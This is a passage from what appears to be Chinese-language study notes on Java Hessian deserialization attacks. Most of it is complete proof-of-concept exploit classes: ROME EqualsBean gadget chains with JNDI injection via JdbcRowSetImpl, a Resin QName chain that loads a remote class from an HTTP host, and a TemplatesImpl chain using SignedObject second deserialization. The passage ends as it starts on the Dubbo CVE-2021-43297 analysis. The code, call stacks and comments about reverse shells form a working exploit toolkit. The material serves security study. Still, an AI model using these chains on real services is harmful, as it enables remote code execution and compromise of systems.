        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }

    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

函数调用栈


这里makeMap的作用其实就类似于HashMap的put方法的重写，不过这里可以防止HashCode提前触发

## EqualsBean最终链子2

在EqualsBean中也有hashCode方法



```java
Hessian2Input#readObject()->
    EqualsBean#hashCode()->
    	ToStringBean#toString()->
    		JdbcRowSetImpl#getDatabaseMetaData()->
    			JNDI注入
```

## EqualsBean最终POC2

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class ROMEJdbcRowSetImplPoc {
    public static void main(String[] args) throws Exception {

        //反射调用setDataSourceName设置DataSourceName参数
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:1389/exp";
        Method setDataSourceName = BaseRowSet.class.getDeclaredMethod("setDataSourceName",String.class);
        setDataSourceName.invoke(jdbcRowSet,url);

        //触发ToStringBean#toString
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        //ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        //类似于HashMap的put方法，可以防止提前触发hashCode
        //HashMap hashMap = makeMap(objectBean,"aaa");
        HashMap hashMap = makeMap(equalsBean,"aaa");

        byte[] bytes = Hessian2_serialize(hashMap);
        Hessian2_unserialize(bytes);
    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }

    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

当然这里换成RMI也是可以的

# Resin+Qname触发

之前Resin的链子也是可以的

## 最终POC

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class ResinQnamePoc {
    public static void main(String[] args) throws Exception {
        /*Hessian2Input#readObject()->
         *   HashMap#putVal()->
         *       XString#equals()->
         *           QName#toString()->
         *               ContinuationContext#composeName()->
         *                   URLClassLoader#newInstance()
         * */

        //反射获取ContinuationContext的构造方法
        Class<?> cls = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> ctor = cls.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ctor.setAccessible(true);

        //分别构造一个CannotProceedException对象和一个Hashtable对象
        //配置一个cpe并将恶意的Reference对象加载进去
        Reference refObj = new Reference("Exploit","Exploit","http://127.0.0.1:8000/");
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(refObj);
        //实例化一个Hashtable对象
        Hashtable<?, ?> hashtable = new Hashtable<>();
        Context context =  (Context) ctor.newInstance(cpe,hashtable);


        QName qname = new QName(context,"aaa","bbb");
        String unhash = unhash(qname.hashCode());  //unhash的目的是为了绕过hashmap的hashcode判断，进入equals

        //触发toString方法
        XString xString = new XString(unhash);
        HashMap hashmap1 = new HashMap();
        HashMap hashmap2 = new HashMap();
        // 这里的顺序很重要，不然在调用equals方法时可能调用的是JSONArray.equals(XString)
        hashmap1.put("yy",qname);
        hashmap1.put("zZ",xString);
        hashmap2.put("yy",xString);
        hashmap2.put("zZ",qname);
        HashMap map = makeMap(hashmap1,hashmap2);


        byte[] poc = Hessian2_serialize(map);
        Hessian2_unserialize(poc);
    }
    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }
    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }

    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}

```

函数调用栈

```java
newInstance:735, URLClassLoader (java.net)
loadClass:85, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:158, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
getContext:439, NamingManager (javax.naming.spi)
getTargetContext:55, ContinuationContext (javax.naming.spi)
composeName:180, ContinuationContext (javax.naming.spi)
toString:353, QName (com.caucho.naming)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
equals:472, AbstractMap (java.util)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:577, SerializerFactory (com.caucho.hessian.io)
readObject:2093, Hessian2Input (com.caucho.hessian.io)
Hessian2_unserialize:134, ResinQnamePoc (SerializeChains.HessianChains)
main:59, ResinQnamePoc (SerializeChains.HessianChains)
```

# TemplatesImpl && SignedObject二次反序列化

JNDI是需要出网才能利用的，那我们还需要另外找到不需要出网的方式

尝试用ROME原生链中的TemplatesImpl链

```java
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = ClassPool.getDefault().get(calc.class.getName()).toBytecode();
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        //触发ToStringBean#toString
        ToStringBean toStringBean = new ToStringBean(TemplatesImpl.class,templates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        //类似于HashMap的put方法，可以防止提前触发hashCode
        HashMap hashMap = makeMap(equalsBean,"aaa");

        byte[] bytes = Hessian2_serialize(hashMap);
        Hessian2_unserialize(bytes);
```

但是并没有弹出计算器，这是为什么呢？

## 问题的出现

这是由于TemplatesImpl类中的被`transient`修饰的`_tfactory`属性无法被序列化，从而导致TemplatesImpl类无法初始化的问题



所以这里的`_tfactory`的值是null

随便找个之前的CC3链子就能看到`_tfactory`应该是被赋值了的



那又是为什么之前用java原生反序列化的时候可以序列化这个字段呢？

在使用java原生反序列化的时候，如果被反序列化的类重写了readObject方法，那么java就会利用反射去调用这个类的readObject方法



看到TemplatesImpl#readObject



这里手动实例化了一个TransformerFactoryImpl对象并赋值给`_tfactory`

## 思路的又现

既然没法利用Hessian2Input.readObject()反序列化这个TemplatesImpl类，那就得重新找一个能反序列化任意类的类了

一个很好的方法就是利用SignedObject进行二次反序列化，SignedObject的构造函数能够序列化一个对象并且存储到content中



而在getObject方法中能够反序列化出这个对象

```java
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

然后通过ToString的toString去调用getObject方法

所以尝试写一下二次反序列化的POC

## 最终POC

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.HashMap;

public class ROMETemplatesImplPOC {
    public static void main(String[] args) throws  Exception{
        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);


        //触发ToStringBean#toString
        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
        //ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        //类似于HashMap的put方法，可以防止提前触发hashCode
        //HashMap hashMap = makeMap(objectBean,"aaa");
        HashMap hashMap = makeMap(equalsBean,"aaa");

        //二次反序列化操作
        SignedObject signedObject = second_serialize(hashMap);

        //toString触发SignedObject#getObject方法
        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class,signedObject);
        //ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);
        EqualsBean equalsBean2 = new EqualsBean(ToStringBean.class,toStringBean2);
        HashMap hashMap2 = makeMap(equalsBean2,"aaa");

        byte[] bytes = Hessian2_serialize(hashMap2);
        Hessian2_unserialize(bytes);

    }
    //二次反序列化函数
    public static SignedObject second_serialize(Object o) throws Exception {
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        return signedObject;
    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }

    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Field field = object.getClass().getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }

    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian2依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        return hessian2Input.readObject();
    }
}
```



函数调用栈

```java
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:176, EqualsBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
getObject:180, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:176, EqualsBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:577, SerializerFactory (com.caucho.hessian.io)
readObject:2093, Hessian2Input (com.caucho.hessian.io)
Hessian2_unserialize:109, ROMETemplatesImplPOC (SerializeChains.HessianChains)
main:52, ROMETemplatesImplPOC (SerializeChains.HessianChains)
```

# Apache Dubbo Hessian2异常处理反序列化漏洞CVE-2021-43297

**Dubbo Hessian2**是Dubbo 基于原生 Hessian2 进行了 fork 和改造,形成了自己的实现，在`com.alibaba.com.caucho.hessian` 包下

漏洞原理跟PHP触发`__toString`一样，是字符串和对象拼接导致隐式触发了该对象的`toString`方法

## Hessian2Input#expect

漏洞点在`Hessian2Input#expect`中



这里可以触发任意类obj的toString

我们看看哪里调用了expect

